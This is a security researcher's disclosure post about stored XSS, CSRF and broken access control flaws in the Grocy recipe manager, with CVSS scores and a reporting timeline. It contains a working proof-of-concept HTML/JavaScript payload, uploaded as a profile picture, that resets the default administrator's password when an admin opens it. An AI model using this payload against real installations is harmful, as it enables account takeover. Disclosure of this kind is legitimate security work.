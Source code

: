 ```yaml
---
title: All Your Recipe Are Belong to Us (Part 1/3) - Stored XSS, CSRF and Broken Access Control Vulnerabilities in Grocy
date: 2024-11-27T04:00:56+01:00
toc: false
images: 
tags:
  - CVE
  - Web
  - English
---
```


I used 4 hours of my free time (not counting the Responsible Disclosure and Blog Posts...) to "speed pentest" the three biggest and most popular (measured by Github stars) open-source recipe managers. This included [Grocy](https://github.com/grocy/grocy), which had >6900 stars at the time of testing. Here I found 3 vulnerabilities. The first one is an _Unrestricted File Upload_, through which it was possible to upload any files. This included HTML and SVG files to achieve _Stored XSS_. The second one is a _CSRF_ vulnerability, because the session token has no security flags set, as well as no CSRF countermeasure is implemented. The last one is "one" _Broken Access Control_ vulnerability: For most functions, only the link in the sidebar is disabled for unauthorized users, but a direct call to the URL or API endpoint allows access to data for which you have no permissions.

## Overview of the Vulnerabilities
| Name                                                                               | CVSS Score      |
| ---------------------------------------------------------------------------------- | ------ |
| Unrestricted File Upload: Users can upload HTML or SVG files to exploit Stored XSS | [8.7 High](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N) |
| CSRF: Change the administrator's password                                          | [6.8 Medium](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N) |
| BAC: Users can directly call functions, which they are not authorized for          | [6.5 Medium](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N) |

## Vulnerabilities in Detail

## Unrestricted File Upload: Users can upload HTML or SVG files to exploit Stored XSS (8.7 High)
Users have by default the permission to edit their own profile. There they can upload a profile picture. However it is not validated whether the uploaded file is a benign picture or not. Thus, it is possible to upload malicious HTML or SVG files. As a POC I've created the following HTML file:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Update User</title>
</head>
<body>
    <h1 id="status">Loading...</h1>
    <script>
        // Function to perform the PUT request
        async function updateUser() {
            const url = '/api/users/1'; // Target endpoint
            const payload = {
                username: "admin",
                first_name: "",
                last_name: "",
                change_password: "1",
                password: "NewPassword123",
                password_confirm: "NewPassword123"
            };

            try {
                const response = await fetch(url, {
                    method: 'PUT',
                    credentials: 'include', // Include cookies in the request
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify(payload) // Convert payload to JSON string
                });

                if (response.ok) {
                    document.getElementById('status').textContent = 'User updated successfully!';
                } else {
                    const errorText = await response.text();
                    document.getElementById('status').textContent = 'Failed to update user: ' + errorText;
                }
            } catch (error) {
                document.getElementById('status').textContent = 'Error: ' + error.message;
            }
        }

        // Execute the request when the page loads
        (async function execute() {
            await updateUser();
        })();
    </script>
</body>
</html>
```
When the file is viewed by an administrator, the JavaScript will issue a request that changes the password of the user with id 1 (by default an administrator) to `NewPassword123`.
The following screenshot shows the upload function:

![Grocy1](/media/2024/11/grocy1.png)

After saving the changes, we can see the URL of the uploaded file

![Grocy2](/media/2024/11/grocy2.png)

We need to remove the appended `?force_serve_as=picture&best_fit_width=32&best_fit_height=32` in order for the file to be executed

![Grocy3](/media/2024/11/grocy3.png)

As we do not have administrative rights (YET ;)) we receive an error message. However, if an administrator visits the url, the request is successful

![Grocy4](/media/2024/11/grocy4.png)

Now we can login as the administrator `admin` with the newly set password `NewPassword123`

![Grocy5](/media/2024/11/grocy5.png)

## CSRF: Change the administrator's password (6.8 Medium)
The session cookie has no security flags (escpecially SameSite) set

![Grocy6](/media/2024/11/grocy6.png)

Further no CSRF countermeasures (such as CSRF-Tokens) are implemented at all, leaving all functions vulnerable to CSRF. E.g. see the following request to change the administrator's password

![Grocy7](/media/2024/11/grocy7.png)

The same POC as the previous vulnerability can be used, but instead of the relative URL a absolute URL needs to be specified. If an adminstrative user visits this POC on the attacker's website, the password of the default administrative user will be changed.

## BAC: Users can directly call functions, which they are not authorized for (6.5 Medium)

As a starting point, we create a user `user` with no permissions

![Grocy8](/media/2024/11/grocy8.png)

The user is not authorized to access most of the functions of the webapp. The links to those functions are deactivated on the sidebar. However the user is still able to access those functions by requesting their URL directly. e.g. we can request /calendar in order to view the calendar and its entries.

![Grocy9](/media/2024/11/grocy9.png)

A further example are the recipes

![Grocy10](/media/2024/11/grocy9.png)

This affetcs ALL functions except the user management.

However, it is only possible to view data and not to modify it.

## Timeline
| Date | Event |
| - | - |
| 2024-11-26 | Discovered the vulnerabilities |
| 2024-11-26 | Reported the vulnerabilites |
| 2024-11-26 | Maintainer replied unpolitely that they do *NOT* wanna be bothered with "irrelevant" security issues |
| 2024-11-27 | CVEs requested |